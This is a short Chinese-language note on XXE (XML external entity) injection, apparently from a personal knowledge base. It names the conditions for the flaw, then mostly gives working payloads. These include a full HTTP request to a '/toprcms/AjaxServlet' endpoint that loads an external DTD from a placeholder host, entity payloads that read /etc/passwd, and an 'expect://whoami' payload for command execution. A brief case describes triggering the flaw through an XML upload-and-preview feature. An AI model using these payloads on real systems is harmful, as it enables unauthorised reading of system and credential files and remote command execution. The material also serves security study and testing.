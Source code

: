 <a name="P8SkT"></a>
## 条件
产生XXE有三个条件，首先是解析了XML，其次是XML外部可控。最后是没有禁用外部实体
<a name="WmGk5"></a>
## 远程文件读取
漏洞请求包

```java
POST /toprcms/AjaxServlet HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=C1B528DD5595209AD5EA362E9E6E8C35; SESSION_TICKET=2c969456-015d-21dd-e80e-2ea542b4c151
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Length: 139
Content-Type: application/xml;charset=UTF-8

<!DOCTYPE foo [
    <!ENTITY  % xxe SYSTEM "http://ip/xxe.dtd" >
    %xxe;
]>
<root>
    <name>&evil;</name>
</root>
```

服务器上的dtd文件内容，然后开启http服务
```java
<!ENTITY evil SYSTEM "file:///etc/passwd" >
```

<a name="CX0BX"></a>
## 本地文件读取
```java
<!DOCTYPE foo [
    <!ENTITY  % xxe "<!ENTITY evil SYSTEM 'file:///etc/passwd'>" >
    %xxe;
]>
<root>
    <name>&evil;</name>
</root>
```
<a name="JS3iV"></a>
### 案例
例如某个站，存在上传xml的功能点，可以上传本地文件读取的xxe，然后点击预览，就触发漏洞了。<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1646271830026-e312310d-ab70-48dc-9143-4aa9dc85483b.png#clientId=u715bcebf-8c8e-4&from=paste&height=365&id=uac1450de&originHeight=729&originWidth=1148&originalType=binary&ratio=1&size=334101&status=done&style=none&taskId=u24f1a298-3f4c-40dc-8efc-969be4153d8&width=574)

<a name="StjvY"></a>
## 命令执行
 PHP expect模块被加载到了易受攻击的系统或处理XML的内部应用程序上，那么我们就可以执行如下的命令：  
```java
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE hack[
<!ENTITY  bee SYSTEM "expect://whoami">
]>
```
